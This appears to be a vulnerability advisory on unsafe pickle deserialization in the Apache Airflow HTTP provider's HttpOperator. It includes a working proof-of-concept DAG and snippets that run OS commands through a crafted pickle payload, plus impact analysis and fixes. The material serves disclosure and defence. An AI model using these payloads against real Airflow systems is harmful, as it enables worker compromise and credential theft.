

# Remote Code Execution via Unsafe Deserialization in Apache Airflow HTTP Provider

> A critical deserialization vulnerability in apache-airflow-providers-http that allows remote code execution on Worker nodes through malicious pickle objects.

---

## TL;DR

The apache-airflow-providers-http package contains a critical unsafe deserialization vulnerability in the HttpOperator's deferrable execution flow. When a deferred task resumes, the worker blindly trusts event data from the Triggerer and deserializes it using Python's `pickle.loads()` without any integrity verification, authentication, or validation. This allows attackers who can influence the Trigger event payload to achieve arbitrary code execution on Worker nodes.

---

## Background

Apache Airflow is a widely-used platform for programmatically authoring, scheduling, and monitoring workflows. The `apache-airflow-providers-http` package provides operators for making HTTP requests within Airflow DAGs.

Airflow's deferrable operators allow tasks to suspend execution and free up worker slots while waiting for external events. The architecture involves three key components:

- **Workers** - Execute tasks and process DAG runs
- **Triggerer** - A dedicated service that monitors external events and resumes suspended tasks
- **Metadata Database** - Stores task state, configuration, and event payloads

When a deferrable task completes, the Triggerer emits an event containing the result data, which is stored in the metadata database and later consumed by the Worker to resume execution.

Python's `pickle` module is a serialization format that can represent arbitrary Python objects, including executable code. Deserializing untrusted pickle data is dangerous because pickle can execute arbitrary code during deserialization.

---

## The Issue

The vulnerability exists in the `HttpOperator.execute_complete()` method, which is called when a deferred HTTP task resumes execution on a Worker.

The affected code path:

1. Deferred task completes in the Triggerer
2. Triggerer emits an event dictionary containing response data
3. Event is stored in the metadata database
4. Worker retrieves the event and calls `HttpOperator.execute_complete(context, event)`
5. **Vulnerable code:** `event["response"]` is base64-decoded and passed directly to `pickle.loads()` without validation

**The critical flaw:** The code treats the event dictionary as trusted input, even though it can be influenced by:
- Compromised Triggerer components
- Metadata database tampering
- Man-in-the-middle attacks on internal communications

Since `pickle.loads()` can execute arbitrary code during deserialization, this creates a direct path from Triggerer/database compromise to full Worker node compromise.

---

## Proof of Concept

The following proof of concept demonstrates remote code execution on a Worker node:

```python
from airflow import DAG
from airflow.operators.python import PythonOperator
from airflow.providers.http.operators.http import HttpOperator
from datetime import datetime
import base64
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ("id",))

def simulate_attack(**context):
    payload = base64.b64encode(pickle.dumps(Exploit())).decode()
    
    operator = HttpOperator(task_id="vulnerable_task")

    try:
        operator.execute_complete(
            context=context, 
            event={"response": payload, "status": "success"}
        )
    except Exception:
        pass

with DAG(
    'poc',
    start_date=datetime(2026, 1, 12),
    schedule=None,
    catchup=False
) as dag:

    PythonOperator(
        task_id='poc',
        python_callable=simulate_attack
    )
```


### Attack Execution Flow

1. **Attacker compromises Triggerer or metadata database**
2. **Attacker crafts malicious pickle payload** using `__reduce__()` to specify arbitrary code execution
3. **Payload is base64-encoded** and injected into the event's `response` field
4. **Worker retrieves the event** when the deferred task resumes
5. **Worker calls `pickle.loads()`** on the malicious payload
6. **Arbitrary code executes** with Worker privileges

When the malicious payload is deserialized, the command `id` executes on the Worker node, demonstrating arbitrary code execution.

---

## Technical Analysis

### The Vulnerable Code Path

The vulnerability exists in `http.py` at line 289, within the `execute_complete()` method:

```python
def execute_complete(self, context, event):
    # event comes from Triggerer via metadata database
    # No authentication or integrity checks
    response_data = event["response"]
    
    # VULNERABLE: Direct deserialization of untrusted data
    response = pickle.loads(base64.b64decode(response_data))
    
    return self.process_response(response)
```

### Why This Is Dangerous

**Python pickle is not safe for untrusted data:**

When `pickle.loads()` deserializes an object, it can execute arbitrary code through:
- The `__reduce__()` method, which returns a callable and arguments
- The `__setstate__()` method, which can modify object state
- Custom metaclasses and other Python magic methods

An attacker can craft a pickle payload that executes code during deserialization:

```python
class Exploit:
    def __reduce__(self):
        # Returns: (callable, arguments)
        # This executes: os.system("malicious command")
        return (os.system, ("malicious command",))

# When unpickled, this executes the command immediately
malicious_pickle = pickle.dumps(Exploit())
pickle.loads(malicious_pickle)  # Executes "malicious command"
```

### The Attack Chain

```
┌─────────────┐
│  Attacker   │
└──────┬──────┘
       │
       │ 1. Compromise Triggerer or Database
       │
       v
┌─────────────────────┐
│  Malicious Payload  │
│  (base64 pickle)    │
└──────┬──────────────┘
       │
       │ 2. Inject into event["response"]
       │
       v
┌─────────────────────┐
│ Metadata Database   │
└──────┬──────────────┘
       │
       │ 3. Worker retrieves event
       │
       v
┌─────────────────────┐
│  Worker Node        │
│  execute_complete() │
└──────┬──────────────┘
       │
       │ 4. pickle.loads() called
       │
       v
┌─────────────────────┐
│ Remote Code         │
│ Execution!          │
└─────────────────────┘
```

---

## Impact

### 1. Remote Code Execution on Workers
- Execute arbitrary OS commands with Worker process privileges
- Full control over Worker container/process

### 2. Credential Theft
- Steal Airflow Connections (database credentials, API keys, cloud credentials)
- Steal Airflow Variables (sensitive configuration data)
- Access environment variables and secrets

### 3. Lateral Movement
- Pivot from Triggerer compromise to Worker compromise
- Escalate from database tampering to code execution
- Compromise entire Airflow infrastructure

### 4. Workflow Manipulation
- Modify task execution and workflow logic
- Inject malicious steps into production workflows
- Exfiltrate or corrupt workflow data

### 5. Infrastructure Compromise
- Access underlying cloud resources if Workers have IAM roles
- Compromise connected systems and databases
- Full confidentiality, integrity, and availability impact

### Attack Scenarios

**Scenario 1: Compromised Triggerer**
If an attacker gains access to the Triggerer service (through vulnerability or misconfiguration), they can inject malicious events that execute code on all Workers processing those events.

**Scenario 2: Database Tampering**
If an attacker can modify the metadata database (through SQL injection, privilege escalation, or stolen credentials), they can inject malicious payloads into pending events.

**Scenario 3: Internal Network Attack**
An attacker with access to the internal network could perform man-in-the-middle attacks on communications between components, injecting malicious events.

---

## Root Cause Analysis

The vulnerability stems from several design flaws:

### 1. Trust Boundary Violation
The code treats data from the Triggerer/database as trusted input, but these sources can be compromised or tampered with.

### 2. Insecure Deserialization
Using `pickle` for deserializing data from external sources is inherently unsafe. Pickle was designed for trusted data only.

### 3. No Integrity Verification
The event payload has no HMAC signature, encryption, or other integrity protection to verify it hasn't been tampered with.

### 4. No Authentication
There's no verification that the event actually came from a legitimate Triggerer instance.

### 5. Insufficient Input Validation
The code doesn't validate the structure or content of the event data before deserialization.

---

## Affected Versions

- apache-airflow-providers-http version 5.6.0 and potentially earlier versions

---

## Mitigation & Remediation

### Immediate Mitigations

Until a patch is available, organizations should:

1. **Restrict Access to Metadata Database**
   - Implement strong database authentication
   - Use network segmentation to limit database access
   - Enable database audit logging

2. **Secure Triggerer Components**
   - Isolate Triggerer services in secure network zones
   - Implement strong authentication and access controls
   - Monitor for unauthorized access

3. **Monitor for Suspicious Activity**
   - Alert on unexpected command execution from Worker processes
   - Monitor for unusual network connections from Workers
   - Track changes to event data in the metadata database

### Long-term Solutions

The proper fix requires:

1. **Replace Pickle with Safe Serialization**
   ```python
   # Instead of pickle, use JSON or other safe formats
   import json
   
   def execute_complete(self, context, event):
       # Safe deserialization
       response_data = json.loads(base64.b64decode(event["response"]))
       return self.process_response(response_data)
   ```

2. **Implement Integrity Verification**
   ```python
   import hmac
   import hashlib
   
   def verify_event(event, secret_key):
       payload = event["response"]
       signature = event["signature"]
       
       expected = hmac.new(
           secret_key.encode(),
           payload.encode(),
           hashlib.sha256
       ).hexdigest()
       
       if not hmac.compare_digest(signature, expected):
           raise SecurityError("Event signature verification failed")
   ```

3. **Use Cryptographic Signing**
   Implement signed tokens (e.g., JWT) for event payloads to ensure authenticity and integrity.

4. **Principle of Least Privilege**
   Run Worker processes with minimal required permissions to limit impact of compromise.

---

## References

- **CWE-502:** [Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- **Occurrence:** [http.py L289](https://github.com/apache/airflow/blob/providers-http/5.6.0/airflow/providers/http/operators/http.py#L289)
- **OWASP:** [Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
- **Python Pickle Documentation:** [Warning about Pickle Security](https://docs.python.org/3/library/pickle.html)

---

## Key Takeaways

1. **Never use pickle for untrusted data** - Python's pickle module can execute arbitrary code during deserialization
2. **Implement defense in depth** - Multiple security layers prevent single points of failure
3. **Verify data integrity** - Use HMAC signatures or cryptographic signing for inter-component communication
4. **Assume compromise** - Design systems assuming any component could be compromised
5. **Monitor and audit** - Log and alert on suspicious activities across all components

This vulnerability serves as a reminder that security must be built into distributed system designs from the ground up, especially when components communicate via databases or message queues.
